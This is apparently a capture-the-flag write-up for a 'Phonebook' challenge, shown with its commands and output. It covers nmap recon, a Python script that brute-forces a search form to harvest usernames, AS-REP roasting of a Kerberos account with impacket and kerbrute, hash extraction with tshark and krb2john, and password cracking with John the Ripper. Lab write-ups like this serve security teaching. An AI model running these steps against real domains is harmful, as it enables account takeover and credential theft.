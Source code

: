 # Phonebook (4 pts)
Hi Expert,

the archaeologists are looking forward to get some phone numbers from the phone book running on http://78.128.246.142, don't make them wait too long.

Good Luck!

HINT1: It looks like that only logged users can see the phone numbers.

HINT2: Check also other services on given server 78.128.246.142.

HINT3: Impacket is not always the best friend, sometimes John suite works better, especially for non-windows platforms.

## Recon
### Nmap Scan
```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-18 12:21 CEST
Nmap scan report for 78.128.246.142
Host is up (0.028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE      VERSION
80/tcp open  http         Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
88/tcp open  kerberos-sec MIT Kerberos (server time: 2021-10-18 10:22:20Z)
Service Info: Host: SUPERPHONEBOOK.TCC
```
We can see Apache running on port 80 and Kerberos running on port 88.


## Web Interface

![web](https://user-images.githubusercontent.com/20358070/140723145-28745a9b-83b8-4bd4-aed0-43e167b808a8.png)

We can see two parts.
1. Search - Allows to search the phonebook
2. Login - Allows you to login to (likely using kerberos?)

Trying the search functionality with query `a` results in

![query](https://user-images.githubusercontent.com/20358070/140723499-9e430b3e-d789-464f-8cb3-4e83f546c436.png)

so I just wrote a simple python script to bruteforce all two character combinations.

```py
import re
from itertools import permutations
from string import ascii_lowercase

import requests

names = list(set([''.join(pair) for pair in permutations(list(ascii_lowercase), 2)]))
names += [f"{letter}{letter}" for letter in ascii_lowercase]

url = "http://78.128.246.142/search"

for name in names:
    r = requests.post(url, data={"query": name})
    if "name:" in r.text:
        n = re.findall(r"name: (.+)<p>", r.text)
        m = re.findall(r"email: (.+)<p>", r.text)
        hp = re.findall(r"homepage: (.+)<p>", r.text)
        phone = re.findall(r"phone: (.+)<p>", r.text)
        print(n, m, hp, phone)
```
```
['Will Schroeder'] ['harmj0y@superphonebook.tcc'] ['https://www.harmj0y.net'] ['anonymous phone search disabled']
['Bill Bryant'] ['bill@superphonebook.tcc'] ['https://web.mit.edu/kerberos/www/dialogue.html'] ['anonymous phone search disabled']
['Aaron Spelling'] ['aaron@superphonebook.tcc'] ['http://enumerate.more'] ['anonymous phone search disabled']
['Bill Bryant', 'Will Schroeder'] ['bill@superphonebook.tcc', 'harmj0y@superphonebook.tcc'] ['https://web.mit.edu/kerberos/www/dialogue.html', 'https://www.harmj0y.net'] ['anonymous phone search disabled', 'anonymous phone search disabled']
['Aaron Spelling', 'Will Schroeder'] ['aaron@superphonebook.tcc', 'harmj0y@superphonebook.tcc'] ['http://enumerate.more', 'https://www.harmj0y.net'] ['anonymous phone search disabled', 'anonymous phone search disabled']
['Bill Bryant'] ['bill@superphonebook.tcc'] ['https://web.mit.edu/kerberos/www/dialogue.html'] ['anonymous phone search disabled']
['Theodore Ts&#39;o'] ['tytso@superphonebook.tcc'] [] ['anonymous phone search disabled']
```

I then created a wordlist with all of the usernames here, that is
```
harmj0y
bill
aaron
tytso
```

Now, we can use tools like `impacket` to query these usernames against kerberos and find out more. 

Impacket:
```
GetNPUsers.py -dc-ip 78.128.246.142 -no-pass -usersfile users.txt 'superphonebook.tcc'
```

Or, as I've used, `kerbrute`
```
kerbrute -dc-ip 78.128.246.142 -domain 'SUPERPHONEBOOK.tcc' -users users.txt -password doesnotmatter
[*] Valid user => tytso [NOT PREAUTH]
[*] No passwords were discovered :'(
```

Output of both tools should tell us that PREAUTH is disabled on user `tytso`, this make the account vulnerable to [AS-REP Roasting](https://akimbocore.com/article/asrep-roasting/).

Since we know tytso account is vulnerable, we can now request the AS-REP hash, which is essentialy encrypted session key with user's password. To do that, we can utilize another `impacket` tool, but since those tries have failed me, I decide to take another path and that was to capture the initial AS-REQ sequence in wireshark, save the capture to disk and process it with `tshark` and `krb2john`.

```
tshark -r capt2.pcap -T pdml > out.pdml
krb2john.py out.pdml  > tytsohash
```

This gave me this hash
```
$krb5asrep$18$SUPERPHONEBOOK.TCCtytso$2e307a6a5596b1492bee05b4d3191d645da738f5360edf9210d5cf48581dc2468ba5fb92e9a98e5a7da6d8d8b35a0d19e694b03f0003adc634bb6ec9b7b1886e1e2d5eb29590252dba02a4ad96236762cb5402b509c3ac74c6ff8a1523ba6f334c21254110bf7675fc2f9b63fb3f833eb8b0f7717640ab724187b01e0dba5959fdeaa50af9be25c54b203ff2f244f958d1a7a7db7055d96cad9aad96513cb64e1776961cd95c4b122ea3c5e6819c9ff9fc487fd161936b0cdf449d0c889762d102fbd63f6ea693e5d9fd2fde2559a668892219f86f11e6ab475290169a2f760e952afe2a32cbfce38f5b$7b34b6e4a4bb14a948980354
```
I spent about two days at the next step, because from CTF experience, if the challenge is crackable, the password is in rockyou (which obviously is not the case in real life so I understand the decision), however that was not the case here. Also since I prefer `hashcat` to crack password hashes, I spend a lot of time before realizing hashcat does not support this kind of hash (AS-REP Type 18).

After failing miserable with all kinds of wordlist, I decided to run iterative bruteforce in JtR, but instead on accident ran default wordlist (`john/run/password.lst`) and that cracked the password in about a second.

```
john --format=krb5asrep --min-length=4 tytsohash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Proceeding with single, rules:Single, lengths:1-125
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/home/josef/CTF/john/run/password.lst, lengths: 1-125
0g 0:00:00:04 22.88% 2/3 (ETA: 10:52:03) 0g/s 8430p/s 8430c/s 8430C/s active3..matthew7
garfunkel4       (?)     
1g 0:00:00:05 DONE 2/3 (2021-10-20 10:51) 0.1715g/s 8430p/s 8430c/s 8430C/s voyager4..slip4
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

So the correct credentials are `tytso:garfunkel4`, we can now use the login form in the web page, after logging in we can again use the search form to see the previously redacted fields, and as it turned out, Tytso's phone number contains a flag.

![flag](https://user-images.githubusercontent.com/20358070/140728345-2cdc9a6c-088d-401a-ab74-baec716ffe5b.png)
